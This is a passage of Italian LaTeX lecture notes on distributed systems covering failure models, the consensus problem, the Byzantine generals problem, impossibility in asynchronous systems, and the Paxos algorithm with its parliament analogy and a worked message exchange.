Molti sistemi distribuiti sono composti da multicomputer eterogenei, con diverse componenti e reti dalle caratteristiche molto diverse. I multiprocessori sono limitati dalla dislocazione geografica, inoltre nella maggior parte dei sistemi distribuiti le operazioni non vengono eseguite in modo transazionale.

\subsection{Algoritmi distribuiti}
Un algoritmo distribuito è la specifica delle azioni che devono essere intraprese dai processi che compongono il sistema, per il raggiungimento di un obiettivo.
Dato che risulta difficile descrivere tutti gli stati possibili di un algoritmo distribuito, anche per via dei malfunzionamenti a cui sono soggetti i processi e la trasmissione dei messaggi, la progettazione di un algoritmo distribuito deve basarsi sulle ipotesi che è possibile fare sulla tempificazione del sistema, e prevedere la gestione dei malfunzionamenti (per quanto possibile).

\subsection{Sistemi distribuiti sincroni}
Un sistema distribuito è sincrono se esistono e sono noti i limiti inferiori e superiori al tempo di esecuzione di ogni passo di elaborazione. In particolare, devono essere noti il limite superiore al tempo di consegna di un messaggio (detto tempo di timeout) e il limite superiore al tasso di deviazione di ciascun clock locale (\textit{clock drift rate}) rispetto al tempo reale.

Spesso è possibile stimare i limiti al tempo di esecuzione dei processi, al ritardo dei messaggi e alla deriva degli orologi, ma è difficile individuare i valori reali. Se non è possibile garantire valori limite, un qualsiasi algoritmo basato su di essi non è affidabile. Per i sistemi sincroni è possibile definire algoritmi distribuiti basati sull'individuazione dei fallimenti tramite timeout, tuttavia è difficile assicurare tramite proprietà in un sistema su grande scala e nel tempo. 

Tipicamente i sistemi distribuiti reali non sono sincroni, ma è comunque possibile costruire sistemi distribuiti sincroni. Infatti se i processi che non possono essere modellati come sincroni hanno limiti superiori probabilistici sui tempi di esecuzione e di comunicazione, è possibile utilizzare i timeout per fare in modo che il sistema si comporti come un sistema parzialmente sincrono. Per fare ciò è necessario individuare le risorse richieste dai processi per eseguire le elaborazioni e per scambiare messaggi, garantire un numero sufficiente di cicli di processore e una sufficiente capacità di rete.

\subsection{Sistemi distribuiti asincroni}
Un sistema distribuito è asincrono se non esistono limiti alla velocità di esecuzione dei processi, al ritardo di trasmissione dei messaggi, o alla deviazione del clock. In un sistema asincrono, non è possibile formulare ipotesi temporali relativamente all'elaborazione, allo scambio messaggi e alla sincronizzazione. 
\begin{mdframed}[backgroundcolor=gray!20,shadow=false]
\textbf{N.B.} I modelli sincrono e asincrono sono gli estremi di uno spettro di possibilità con cui modellare i sistemi reali.
\end{mdframed}

\subsection{Modello dei fallimenti}
Per \textbf{fallimento}(\textit{failure}) si definisce un qualsiasi scostamento da un comportamento considerato corretto o desiderabile. Bisogna però introdurre anche i termini di \textbf{guasto} ed \textbf{errore}.
Un guasto (\textit{fault}) è considerata la causa originaria del fallimento (ad esempio un bug); anche se presente, il fault può non essere attivato in un'esecuzione ma in altri modi. Nel primo caso si dice \textbf{attivo}(\textit{active}), altrimenti è \textbf{dormiente}(\textit{dormant}).

L'errore (\textit{error}) è lo stato in cui transita il sistema a seguito dell'attivazione di un guasto, nel quale dunque il suo comportamento si discosta da quello considerato corretto. Spesso si parla di catena \textit{fault-error-failure}, come si può vedere dall'immagine seguente.

\begin{figure}[ht]
    \centering
    \includegraphics[width=14cm]{./Images/cap2/2.2.png}
    \label{fig:image2.2}
\end{figure}

Un modello dei fallimenti per un sistema distribuito definisce le modalità con cui si possono verificare guasti in processi e canali di comunicazione. I fallimenti possono essere di natura diversa: per crash, per omissione, di valore, bizantini, e in particolare si dividono in:
\begin{itemize}
    \item \textbf{omission failure}: si ha quando un processo o un canale non eseguono un'azione che ci si aspetta che eseguano;
    \item \textbf{timing failure}: mancato rispetto di una scadenza (applicabile solo ai sistemi sincroni);
    \item \textbf{fail stop}: si ha quando un processo non esegue più azioni, e gli altri processi sono in grado di rilevarne il fallimento;
    \item \textbf{crash}: si ha quando un processo non esegue più azioni, e gli altri processi non sono in grado di rilevarne il fallimento;
    \item \textbf{omissione}: può essere da parte di un canale, quando questo non trasporta messaggi, oppure da parte di un processo, nel quale il processo fa una \texttt{send} o una \texttt{receive} ,a il messaggio non viene spedito/ricevuto (\textit{send omission/receive omission});
    \item \textbf{prestazionale}:
    \begin{itemize}
        \item di un canale: il tempo di consegna di un messaggio eccede il limite superiore;
        \item di un processo: il tempo di esecuzione di un'azione eccede il limite superiore;
        \item del clock: la discrepanza rispetto a un clock ideale eccede il limite superiore. 
    \end{itemize}
    \item \textbf{fallimento bizantino}: è la semantica peggiore per un guasto, in cui si può verificare qualunque tipo di errore. Rappresenta un fallimento di un processo o di un canale che si comportano in modo arbitrario, ad esempio mandando più messaggi, omettendo azioni o comportandosi in modo malizioso.
\end{itemize}
\subsection{Modello di sicurezza}
Il modello di interazione prevede processi che incapsulano risorse e forniscono ad altri processi l'accesso ad esse mediante interazioni con scambio di messaggi.

Questo modello quindi è la base per il modello di sicurezza: la sicurezza di un sistema distribuito può essere ottenuta rendendo sicuri i processi e i canali di comunicazione tra essi, e proteggendo le risorse che i processi incapsulano.

La sicurezza nei sistemi distribuiti deve riguardare tutti i componenti del sistema e coinvolge due aspetti principali:
\begin{itemize}
    \item le comunicazioni tra utenti e processi, che ha come soluzione la costruzione di canali sicuri;
    \item l'autorizzazione di utenti e processi, che si può risolvere con un controllo degli accessi.
\end{itemize}
Inoltre un sistema distribuito sicuro ha bisogno di una politica di sicurezza che definisca le azioni che le entità del sistema possono eseguire e quelle che sono proibite. Una politica può essere realizzata tramite meccanismi di sicurezza, come crittografia, autenticazione, autorizzazione.

Le minacce alla sicurezza rientrano in tre grandi classi:
\begin{itemize}
    \item perdita: si riferisce all'acquisizione di informazioni da parte di destinatari non autorizzati;
    \item manomissione: si riferisce all'alterazione non autorizzata delle informazioni;
    \item vandalismo: si riferisce all'interferenza con il corretto funzionamento di un sistema senza guadagno per l'autore.
\end{itemize}
I meccanismi di sicurezza nei sistemi distribuiti sono generalmente posti a livello middleware, in quanto non è nota a priori l'architettura sottostante, essendo un sistema distribuito.
Le dipendenze tra servizi di sicurezza portano al concetto di \textbf{Trusted Computing Base}(TCB), ovvero l'insieme di tutti i meccanismi di sicurezzza in un sistema distribuito che sono necessari per rispettare la sicurezza del sistema. I servizi di sicurezza possono essere isolati da altri tipi di servizi, riducendo la TCB ad un piccolo sottoinsieme di nodi.

\section{Il consenso nei sistemi distribuiti}
Informalmente, il problema del consenso distribuito consiste nel far sì che alcuni processi convengano su un valore, dopo che almeno uno di esse ha effettuato una proposta riguardo tale valore. In pratica:
\begin{itemize}
    \item $N$ processi comunicanti tramite scambio messaggi;
    \item i canali di comunicazione sono affidabili;
    \item i processi sono soggetti a fallimenti di tipo crash oppure bizantini;
    \item il processo $p_{i} (i=1 ... N)$ possiede una variabile di decisione $d_{i}$ e propone un proprio valore $v_{i}$ appartenente ad un insieme $D$;
    \item ciascun processo parte da uno stato di indecisione, e mira a raggiungere uno stato di decisione, in cui il valore di $d_{i}$ è immutabile.
\end{itemize}

Un esempio con tre processi: \newline
- I processi $p_{1}$ e $p_{3}$ propongono di provedere ad un'azione comune; \newline
- Il processo $p_{2}$ propone di abortire l'azione comune, ma poi subisce un crash.

\begin{figure}[ht]
    \centering
    \includegraphics[width=8cm]{./Images/cap2/2.3.png}
    \label{fig:image2.3}
\end{figure}

Un algoritmo di consenso distribuito fa sì che i due processi corretti decidano di procedere. Il processo $p_{2}$ non viene proprio considerato perché è andato in crash e gli altri due processi non se ne sono accorti.

I requisiti che devono essere soddisfatti da un algoritmo di consenso distribuito in ogni sua esecuzione sono:
\begin{itemize}
    \item \textbf{Terminazione}: prima o poi ogni processo corretto prende una decisione;
    \item \textbf{Accordo}: due qualsiasi processi corretti non decidono diversamente;
    \item  \textbf{Integrità}: se tutti i processi corretti propongono lo stesso valore, la decisione finale di ogni processo corretto corrisponde a quel valore.
\end{itemize}

Si possono avere varianti al requisito di integrità: per esempio un requisito più debole richiede che il valore di decisione sia proposto da qualche processo corretto, ma non necessariamente da tutti i processi corretti.

\subsection{Il problema dei generali bizantini}
Nella formulazione informale di Lamport, tre o più generali devono convenire se sferrare un attacco o ritirarsi. Uno di essi è il comandante, gli altri sono i suoi generali.
\begin{itemize}
    \item Il comandante invia l'ordine di attaccare o ritirarsi; i generali devono convenire se attaccare o ritirarsi.
    \item Uno o più generali possono essere maliziosi.
    \item Se il comandante è malizioso, invia ordini diversi ai generali.
    \item Se un generale è malizioso, dice ad alcuni suoi pari che il comandante ha ordinato di attaccare, ad altri che ordinato di ritirarsi.
\end{itemize}

L'attacco ha successo solo se tutti i generali attaccano e nessuno si ritira. Il problema differisce da quello del consenso in quanto non tutti i processi che devono raggiungere l'accordo propongono un valore, ma uno specifico processo (il generale) fornisce loro un valore sul quale devono convenire. Inoltre tipicamente si assume che i generali siano soggetti a fallimenti bizantini, sebbene il problema possa essere posto anche solo con riferimento a fallimenti per crash. \newline
I requisiti del problema dei generali bizantini sono:
\begin{itemize}
    \item Terminazione: prima o poi ogni processo corretto prende una decisione;
    \item Accordo: due qualsiasi processi corretti non decidono diversamente;
    \item Integrità: se il comandante è corretto, tutti i processi corretti decidono per il valore proposto dal comandante.
\end{itemize}

Nel problema dei generali bizantini l'integrità implica l'accordo se il comandante è corretto. 
\subsection{Il problema della consistenza interattiva}
Variante del problema del consenso, nella quale ogni processo propone un solo valore, e l'obiettivo è che tutti i processi concordino su un vettore di valori, uno per ciascuno di essi. I requisiti sono:
\begin{itemize}
    \item Terminazione: prima o poi ogni processo corretto prende una decisione;
    \item Accordo: il vettore di decisione è lo stesso per tutti i processi corretti.
    \item Integrità: se $p_{i}$ è corretto, tutti i processi corretti decidono per il valore $v_{i}$ proposto da $p_{i}$ come elemmento i-esimo del vettore.
\end{itemize}
\subsection{Consenso in un sistema sincrono}
Un algoritmo di consenso basato su multicast. Le ipotesi sono:
\begin{itemize}
    \item Il sistema è sincrono;
    \item Ci sono $N$ processi;
    \item Al più $f$ processi esibiscono fallimenti per crash;
    \item Si dispone di una primitiva \textit{basic multicast} che garantisce che i processi destinatari corretti ricevano il messaggio, finché il mittente (multicaster) non fallisce:
    \begin{itemize}
        \item \texttt{multicast(g, m)} invia il messaggio \texttt{m} a un gruppo \texttt{g} di processi; \texttt{m} porta con sé un identificativo del mittente, e un identificativo del gruppo \texttt{g};
        \item \texttt{deliver(m)} consegna al chiamante il messaggio \texttt{m};
        \item i processi non mentono su origine e destinazione dei messaggi.
    \end{itemize}
    \item $v_{i}^{k}$ è il vettore dei valori proposti noti al processo $p_{i}$ all'inizio del ciclo $k$;
    \item $f+1$ è il numero complessivo di interazioni.
\end{itemize}

Nel caso peggiore, nelle $f+1$ interazioni si verifica il numero massimo crash possibili $f$: l'algoritmo garantisce che al termine i processi corretti sopravvissuti raggiungano il consenso.
Nell'iterazione $k$, il processo $p_{i}$:
\begin{itemize}
    \item invia (B-multicast) i valori che non ha inviato nei cicli precedenti;
    \item riceve (B-deliver) i messaggi analoghi e aggiorna $v_{i}^{k}$ con i nuovi valori ricevuti.
\end{itemize}

Dopo $f+1$ cicli, ogni processo sceglie il valore minimo di $v_{i}^{f+1}$ come valore di decisione.

La durata di un ciclo è limitata da un apposito \textit{timeout}.

\vspace{5mm}

\begin{lstlisting}
Inizializzazione:
    v_{i}^{0} = {};
    v_{i}^{1} = {v_{i}};

k-esima iterazione, 1 <= <= f+1:   (f+1 cicli)
    B-multicast(v_{i}^{k} - v_{i}^{k-1});
    v_{i}^{k+1} = v_{i}^{k};
    while (in iterazione k) {
        B-deliver(v_{j}) da un processo p_{j};
        v_{i}^{k+1} = v_{i}^{k+1} U v_{j};
    }
Dopo f+1 iterazioni:
    d_{i} = minimo(v_{i}^{f+1};
\end{lstlisting}

\vspace{5mm}

I requisiti sono:
\begin{itemize}
    \item Terminazione: ovvia, il sistema è sincrono.
    \item Accordo e integrità: sono raggiunti se si dimostra che tutti i processi sopravvissuti pervengono allo stesso vettore al termine dell'argoritmo, in quanto poi tutti applicano la stessa funzione (calcolo del minimo).
\end{itemize}
\textbf{Dimostrazione}: assumiamo che due processi non abbiamo lo stesso vettore finale, ad esempio che $p_{i}$ abbia un valore $v$ che $p_{j}$ non possiede (con $i \neq j$).

L'unica spiegazione possibile è che $v$ sia stato inviato da un altro processo $p_{k}$ a $p_{i}$ e poi $p_{k}$ sia andato in crash prima di inviarlo a $p_{j}$.

Ma se $p_{k}$ possedeva il valore $v$ senza che $p_{j}$ lo possedesse anch'esso già a conclusione del ciclo precedente, vuol dire che ci deve essere stato nel ciclo precedente un altro processo ancora che ha inviato $v$ a $p_{k}$ ed è andato in crash prima di inviarlo a $p_{j}$.

Iterando il ragionamento, ci deve essere stato almeno un crash per ciclo. Ma ci sono al più $f$ guasti e $f+1$ cicli, è l'ipotesi di assurdo è contraddetta.

Il risultato è generalizzabile (Dolev e Strong, 1983):
\begin{center}
{\textbf{Ogni algoritmo di consenso distribuito che voglia tollerare $f$ fallimenti richiede almeno $f+1$ cicli.}}
\end{center}
\vspace{5mm}

Ne segue che tale limite inferiore si applica anche agli altri di \textit{agreement} distribuito, come quello dei generali bizantini.

\subsection{Comportamento bizantino}
Un difetto bizantino è una condizione di un sistema distribuito in cui i componenti possono guastarsi e c'è imperfetta conoscenza sull'eventuale guasto di un componente. Il termine prende il nome dal problema dei generali bizantini, che descrive una situazione in cui, per evitare un fallimento catastrofico del sistema, gli attori devono concordare una strategia, ma alcuni sono inaffidabili.

In un errore bizantino, un componente può apparire incoerentemente sia guasto che funzionante ai sistemi di rilevamento degli errori, presentando sintomi diversi a diversi osservatori. È difficile dichiararlo guasto ed escluderlo dalla rete, perchè devono prima raggiungere un consenso su quale componente ha fallito per primo. Il comportamento bizantino è sempre un fallimento. Non si riesce a capire che uno dei nodi è fallito e quale, e ad alcuni può addirittura apparire come funzionante. L'output del comportamento bizantino è completamente a caso. Comunque, non potendo avere una rilevazione precisa del fallimento questo non può essere escluso, ma anzi deve essere tollerato. Tuttavia i fallimenti sono arbitrari, non sono ad hoc per far fallire il sistema.
\subsubsection{PROBLEMA CON TRE GENERALI}
Nella variante del problema con tre generali, si ipotizzano due scenari. Si assume che il sistema sia sincrono, e che i canali siano privati (se i processi potessero ispezionare i messaggi degli altri processi, potrebbero riconoscere il processo bizantino). I processi in rosso sono bizantini.

\begin{figure}[ht]
    \centering
    \includegraphics[width=9cm]{./Images/cap2/2.4.png}
    \label{fig:image2.4}
\end{figure}

\begin{itemize}
    \item Supponiamo che p3 sia bizantino. Il comandante invia $v$ sia a $p_{2}$ che a $p_{3}$, ma $p_{3}$ invia $u$ a $p_{2}$, mentre quest'ultimo invia correttamente $v$. Il processo $p_{2}$ si trova nella situazione in cui riceve due valori diversi, e non può capire chi è compromesso tra $p_{2}$ e il comandante.
    \item Supponiamo invece che il comandante sia bizantino, e invia $v$ a $p_{2}$ e $u$ a $p_{3}$. Questi ultimi si scambiano correttamente i valori, ed entrambi si trovano nella situazione in cui devono capire se l'altro processo o il comandante sono compromessi. Ovviamente anche in questo caso non c'è soluzione.
\end{itemize}
Se esistesse una soluzione, per il requisito di integrità $p_{2}$ dovrebbe scegliere il valore $v$ fornito dal comandante se questo è corretto. Ma nei due casi, $p_{2}$ è nella stessa situazione. Per simmetria si ha che se $p_{3}$ è corretto, deve scegliere il valore del comandante. Ma ciò viola la condizione di \textit{agreement}. perché se il comandante è faulty invia valori diversi ai due luogotenenti. \newline
\textbf{In generale, non esiste soluzione se $N \leq 3f$.}
\subsubsection{PROBLEMA CON QUATTRO GENERALI}
Nel caso invece ci siano 3 luogotenenti e un comandante, la situazione cambia, come è possibile vedere dall'immagine seguente. Infatti si ha che:
\begin{itemize}
    \item $p_{2}$ per maggioranza (v, u, v) = v
    \item $p_{4}$ per maggioranza (v, v, w) = v
    \item $p_{1}$, $p_{2}$, $p_{3}$ per maggioranza non convengono a nessun valore, anzi a un valore nullo, che poi non viene considerato\footnote{A volte al posto del simbolo dell'insieme vuoto viene utilizzata una T rovesciata, che indica la mancanza di informazioni.}: maggioranza (u, v, w) = Ø
\end{itemize}

\begin{figure}[ht]
    \centering
    \includegraphics[width=9cm]{./Images/cap2/2.5.png}
    \label{fig:image2.5}
\end{figure}

\subsection{Consenso nei sistemi asincroni}
Non esiste alcun algoritmo deterministico in grado di garantire il raggiungimento del consenso in un sistema asincrono a scambio di messaggi nel caso di anche un solo fallimento per \textit{crash} di un processo. (Fischer, Lynch, Paterson).

Di conseguenza, non esistono soluzioni garantite in un sistema asincrono per il problema dei generali bizantini e per quello della consistenza interattiva. Tuttavia, si può forzare la garanzia di ottenere il consenso, basta indebolire: 
\begin{itemize}
    \item \textbf{la condizione di Termination}: introducento elementi di non determinismo oppure garantendo la termination esclusivamente durante periodi di sincronia del sistema.
    \item \textbf{la condizione di Agreement}: individuando un insieme finito per i possibili valori decisionali dei singoli processi.
    \item \textbf{il modello del sistema}: introducendo dei \textit{failure detectors} per distinguere i processi lenti (ma corretti) da quelli effettivamente falliti.
\end{itemize}

\begin{table}[ht]
\begin{tabular}{|l|l|l|}
\hline
\textbf{Metodo di fallimento} & \textbf{Sistema sincrono}                                                                                                        & \textbf{Sistema asincrono}                                                                             \\ \hline
Nessuno                       & \begin{tabular}[c]{@{}l@{}}Consenso ottenibile\\ Conoscenza comune ottenibile\end{tabular}                                       & \begin{tabular}[c]{@{}l@{}}Consenso ottenibile\\ Conoscenza comune concorrente \\ ottenibile\end{tabular} \\ \hline
Crash                         & \begin{tabular}[c]{@{}l@{}}Consenso ottenibile per f < n processi \\ non corretti con $\Omega(f+1)$ cicli\end{tabular}      & Consenso non ottenibile                                                                                \\ \hline
Bizantino                     & \begin{tabular}[c]{@{}l@{}}Consenso ottenibile per $f \leq (n-1)/3$\\ processi bizantini con $\Omega(f+1)$ cicli\end{tabular} & Consenso non ottenibile                                                                                \\ \hline
\end{tabular}
\end{table}
\subsection{L'algoritmo di Paxos}
Il nome di questo algoritmo deriva dal funzionamento del parlamento dell'isola di Paxos nell'antica Grecia, detto "Parlamento part-time" in quanto funzionava in modo molto particolare:
\begin{itemize}
    \item Ciascun membro aveva un registro in cui annotare tutte i decreti approvati.
    \item I decreti approvati erano numerati (in ordine crescente).
    \item I parlamentari, così come i messaggeri, potevano entrare ed uscire dal parlamento a piacere.
    \item I messaggeri potevano anche uscire prima di consegnare un messaggio affidatogli, “magari per un viaggio di sei mesi” o “andar via per sempre e il messaggio non veniva consegnato".
    \item Ma quando in Camera, parlamentari e messaggeri erano dediti al lavoro ed eseguivano prontamente i loro compiti.
    \item C’era molto rispetto e fiducia tanto che si tendeva a far passare ogni decreto proposto.
    \item Ogni legislatore di Paxos mantneva un libro mastro, dove registrava tutto ciò che è succedeva (con inchiostro indelebile).
    Ciò poneva un problema: se dei parlamentari decretavano che \textit{"37. È proibito dipingere sulle pareti del tempio"} per poi abbandonare il parlamento per un banchetto, un altro gruppo di legislatori appena entrati in parlamento, e ignari di quanto appena deciso, poteva far passare il decreto \textit{"37. È garantita libertà d'espressione artistica"}, in conflitto con il precedente.
    \item I registri di due parlamentari non dovevano contenere informazioni contraddittorie.
\end{itemize}

Per garantire progresso occorreva che almeno la metà dei legislatori fosse in Camera per un tempo sufficientemente lungo. In tal caso, ogni legge proposta da un parlamentare prima o poi era promulgata (ovvero ratificata da una maggioranza di parlamentari). Ogni legge ratificata appariva nel registro di ogni parlamentare.

Ogni parlamentare era fornito di:
\begin{itemize}
    \item un registro sul quale annotare le leggi promulgate;
    \item una penna ad inchiostro indelebile per scrivere sul registro;
    \item tutti i messaggeri di cui necessitava per comunicare col gli altri parlamentari;
    \item una clessidra e fogli di carta secondo necessità.
\end{itemize}
I matematici dell'isola di Paxos elaborarono un complesso sistema per garantire consistenza e progresso al parlamento. Tuttavia questo meccanismo aveva un punto di debolezza relativamente all'elezione dei nuovi membri del parlamento, che avveniva utilizzando le regolari procedure del parlamento. 

Un giorno, a causa di un errore, passò una legge che asseriva che gli unici membri del parlamento erano dei marinai periti in un incidente navale. Da quel momento il parlamento fu abbandonato e la civiltà di Paxos tramontò rapidamente, finché un tiranno prese possesso dell'isola con un colpo di stato instaurando una dittatura militare che pose fine a secoli di progresso governativo.

\vspace{5mm}

Il documento di Paxos specifica che all'interno del parlamento ci sono tre tipi di legislatori: proponenti , accettatori, discenti.
\begin{itemize}
    \item I \textbf{proponenti} (proposer) sostengono le richieste dei cittadini e portano nuove richieste nel parlamento. Un proponente propone un valore sul quale vuole che ci si metta d'accordo, e lo fa con l'invio di una proposta contenente un valore all'insieme di tutti gli accettatori.
    \item Gli \textbf{accettatori} (acceptors) sono i legislatori che votano. Questi decidono se accettare o meno il valore. Ogni acceptor sceglie un valore in modo indipendente e trasmette la sua decisione ai discenti.
    \item I \textbf{discenti} (learner) determinano se un valore è stato accettato. Nell'algoritmo di Paxos, un valore per essere accettato necessita che la maggioranza degli acceptors scelga lo stesso valore.
\end{itemize}
Un certo numero di proposer propone un valore agli acceptors. Quando un acceptor accetta un valore esso invia il risultato ai nodi learners.

Ogni round di successo ha due fasi, cioè i proposer inviano due tipi di messaggi agli acceptors: \texttt{prepare} e \texttt{accept}.
Il proposer propone un decreto al parlamento. Un decreto ha un numero e un valore, il quale può essere qualsiasi cosa, ma è necessario che il numero associato al decreto sia strettamente \textbf{crescente}.
Dopo che un decreto è stato proposto, gli acceptors discutono.

Ora, se il numero legale o la maggioranza dei legislatori votano sì, il decreto passa e tutti lo registrano su i libri. Non appena il \textbf{consenso} è avvenuto, i learners imparano il risultato e poi lasciano il parlamento facendo sapere a tutti gli abitanti dell'isola cosa è successo in parlamento.

\vspace{5mm}

\noindent È ora opportuno fare un parallelismo tra la storia dell'isola di Paxos e i sistemi distribuiti:

\vspace{5mm}

\noindent\textbf{Parlamento} $\rightarrow$ \textbf{Sistema distribuito}\newline
\textbf{Parlamentari} $\rightarrow$ \textbf{Processi}\newline
\textbf{Uscita/entrata dalla camera} $\rightarrow$ \textbf{Fallimento/recovery}\newline
\textbf{Registro} $\rightarrow$ \textbf{Memoria stabile}\newline
\textbf{Messaggeri} $\rightarrow$ \textbf{Comunicazione asincrona tra i processi}\newline

\vspace{3mm}

\noindent I prossimi due capitoli spiegano nel dettaglio il funzionamento dell'algoritmo di Paxos, il primo in un modo più semplice ed intuitivo, il secondo più dettagliato.

\subsection{Funzionamento dell'algoritmo (A)}
Un nodo di Paxos può assume uno solo o tutti e tre i ruoli: \textit{proposer}, \textit{acceptor}, e \textit{learner}. Un proposer propone un valore sul quale vuole che ci si metta d’accordo. Lo fa con l’invio di una proposta contenente un valore a l’insieme di tutti gli acceptors, che decidono se accettare o meno il valore. Ogni acceptor sceglie un valore in modo indipendente – può ricevere più proposte, ognuna da un proposer diverso – e trasmette la sua decisione ai learners, che determinano se un valore è stato accettato. Un valore per essere accettato da Paxos, una maggioranza di acceptors deve scegliere lo stesso valore. Nella pratica, un singolo nodo può assumere molti o tutti questi ruoli, ma negli esempi di questo capitolo, ogni ruolo viene eseguito su un nodo separato, come illustrato di seguito.
\clearpage
\begin{figure}[hbt!]
    \centering
    \includegraphics[width=8cm]{./Images/cap2/2.6.png}
    \label{fig:image2.6}
\end{figure}

Nell’algoritmo standard di Paxos, i proposers inviano due tipi di messaggi agli acceptors: \texttt{prepare} o \texttt{accept}. Nella prima fase di questo algoritmo un proposer invia una richiesta di prepare ad ogni acceptor, contentente un valore $v$,  e un numero di round, $n$.

Il valore proposto può essere un qualsiasi valore arbitrario. In questo capitolo i nodi di Paxos stanno cercando di raggiungere un consenso su un valore intero. Il numero di round (anche detto numero della proposta) deve essere positivo, crescente e unico, rispetto al numero di round inviato dagli altri proposers.

Nell’esempio illustrato di seguito, ci sono due proposers, ed entrambi inviano una richiesta di \texttt{prepare}. La richiesta da parte del proposer A raggiunge gli acceptors X e Y prima della richiesta del proposer B, ma la richiesta del proposer B raggiunge l’acceptor Z prima.
\vspace{5mm}

\begin{figure}[ht]
    \centering
    \includegraphics[width=8cm]{./Images/cap2/2.7.png}
    \label{fig:image2.7}
\end{figure}
\vspace{5mm}
Se l’acceptor che ricevere una richiesta di \texttt{prepare} non ha visto un’altra proposta, l’acceptor risponde con una risposta di \texttt{prepare} che promette di non accettare un’altra proposta con un numero di round inferiore. Questo è illustrato nella figura successiva, che mostra le risposte di ciascun acceptor alla prima richiesta di \texttt{prepare} che ricevono.
\clearpage

\begin{figure}[ht]
    \centering
    \includegraphics[width=9cm]{./Images/cap2/2.8.png}
    \label{fig:image2.8}
\end{figure}

Alla fine, l’acceptor Z riceve la richiesta dal proposer A, e gli acceptors X e Y ricevono il messaggio dal proposer B. Se l’acceptor ha già visto una richiesta con un numero di round superiore, la richiesta di \texttt{prepare} viene ignorata, come nel caso del proposer A con l’acceptor Z. Se l’acceptor non ha visto una richiesta con un numero di round più alto, prometterà nuovamente di ignorare eventuali richieste con numeri di round più bassi, e rinvia il messaggio precedente con il numero di round più alto che ha visto, insieme al valore di tale proposta. Questo è il caso della richiesta del proposer B e degli acceptors X e Y, come illustrato di seguito:

\begin{figure}[ht]
    \centering
    \includegraphics[width=10cm]{./Images/cap2/2.9.png}
    \label{fig:image2.9}
\end{figure}
\FloatBarrier
Una volta che un proposer ha ricevuto delle risposte di \texttt{prepare} da una maggioranza di acceptors, può emettere una richiesta di \texttt{accept}. Siccome il proposer A riceve solo risposte che indicano che non vi erano precedenti proposte,  invia una richiesta di \texttt{accept} ad ogni acceptor con lo stesso numero di round e di valore della proposta iniziale (n=2, v=8). Tuttavia, queste richieste vengono ignorate da ogni acceptor perché hanno tutti promesso di non accettare le richieste con un numero di round inferiore a 4 (in risposta alla richiesta di prepare del proposer B).


\vspace{5mm}

Il proposer B invia una richiesta di \texttt{accept} ad ogni acceptor contenente il numero di round usato in precedenza (n=4) e il valore associato con il più alto numero di round  del messaggio di \texttt{prepare} ricevuto (v=8). Da notare che questo non è il messaggio che il proposer B ha inizialmente proposto, ma il valore più alto che ha visto in precedenza.

\begin{figure}[ht]
    \centering
    \includegraphics[width=8cm]{./Images/cap2/2.10.png}
    \label{fig:image2.10}
\end{figure}
\FloatBarrier
Se un acceptor riceve una richiesta di \texttt{accept} per un numero di round superiore o uguale  a quello che ha già visto, accetta e invia una notifica ad ogni nodo learner. Un valore è scelto dall’algoritmo di Paxos quando un learner scopre che una maggioranza di acceptors ha accettato un valore, come illustrato di seguito:

\begin{figure}[ht]
    \centering
    \includegraphics[width=10cm]{./Images/cap2/2.11.png}
    \label{fig:image2.11}
\end{figure}

Una volta che un valore è stato scelto da, un’ulteriore comunicazione con gli altri proposers non può modificare questo valore. Se un altro proposer, il proposer C, invia una richiesta di \texttt{prepare} con un numero di round superiore rispetto a quanto è stato precedentemente visto, e un vlaore diverso (per esempio, n=6, v=7), ciascun acceptor risponde con la precedente proposta più alta (n=4, v =8). Ciò richiede che il proposer C invii una richiesta di \texttt{accept} contentente [n=6, v=8], che conferma solo il valore che è già stato scelto. Inoltre, se qualche minoranza di acceptors non ha ancora scelto un valore, questo processo assicura che alla fine si raggiungerà il consenso sullo stesso valore.

\vspace{5mm}

Vari miglioramenti per aumentare l’efficienza per l’algoritmo standard di Paxos sono discussi nei paper di Lamport and Baker et al.. Ad esempio, una richiesta di prepare non è necessaria se il proposer sa che è il primo a suggerire un valore. La proposta per una richiesta di questo tipo viene numerata come 0 (zero), in modo che sarà ignorata se qualsiasi richiesta numerata con un numero di round più alto è già stata ricevuta.

\subsection{Funzionamento dell'algoritmo (B)}
Innanzitutto illustriamo le proprietà del consenso di Paxos:
\begin{itemize}
    \item \textbf{Liveness}: uno tra i valori proposti prima o poi viene scelto. Se un valore viene scelto, ogni processo prima o poi apprenderà tale scelta.
    \item \textbf{Safety}: un valore può essere scelto solo tra quelli proposti. Il valore scelto deve essere unico. Un processo non deve mai apprendere che un valore è stato scelto a meno che esso non sia stato effettivamente scelto.
\end{itemize}
\subsubsection{RUOLI DEI PROCESSI}
Ogni processo può svolgere uno o più dei seguenti ruoli:
\begin{itemize}
    \item \textbf{Proposer}: svolge tale ruolo un processo che ha la facoltà di proporre un valore.
    \item \textbf{Acceptor}: Svolge tale ruolo un processo che ha la facoltà di accettare un valore precedentemente proposto da un proposer.
    \item \textbf{Learner}: svolge tale ruolo un processo che ha la facoltà di apprendere la scelta di un valore effettuata da un acceptor.
\end{itemize}
Si ricorda che il sistema è asincrono, con processi non bizantini, eseguiti a velocità arbitrarie, che possono fallire per poi riprendere l'esecuzione. Poiché possono fallire dopo che un valore è stato deciso e poi ripartire, è necessario che ricordino alcune informazioni anche dopo un recovery (altrimenti non c'è soluzione). I messaggi non hanno limiti di dimensioni, possono essere duplicati o persi, ma non corrotti.

\subsubsection{SCELTA DI UN VALORE}
Il modo più semplice sarebbe quello di avere un solo acceptor, tuttavia sarebbe un \textit{Single point of failure}: il fallimento dell'acceptor renderebbe impossibile il progresso dell'algoritmo.

Quindi si considera un insieme di acceptor, e un valore proposto è scelto se un insieme sufficientemente grande di essi lo accetta. Si può considerare abbastanza grande una qualunque maggioranza, benché due maggioranze abbiano almeno un acceptor in comune, a condizione però che un acceptor accetti al più un valore.

\vspace{5mm}

In assenza di fallimenti o perdite di messaggi, è desiderabile che un valore venga scelto anche se proposto da un solo proposer. È quindi auspicabile che il seguente requisito sia soddisfatto:\newline
\textbf{P1: Un acceptor deve accettare la prima proposta che riceve.}\newline
Tuttavia, se diversi proposer propongono valori diversi in tempi vicini, il requisito P1 potrebbe portare alla situazione in cui ogni acceptor ha accettato un valore ma nessun valore è scelto da una maggioranza di acceptor. Ad esempio, anche con due soli valori proposti, se ciascuno è accettato da circa la metà degli acceptor, il fallimento di uno potrbbe rendere impossibile apprendere quale è stato scelto.

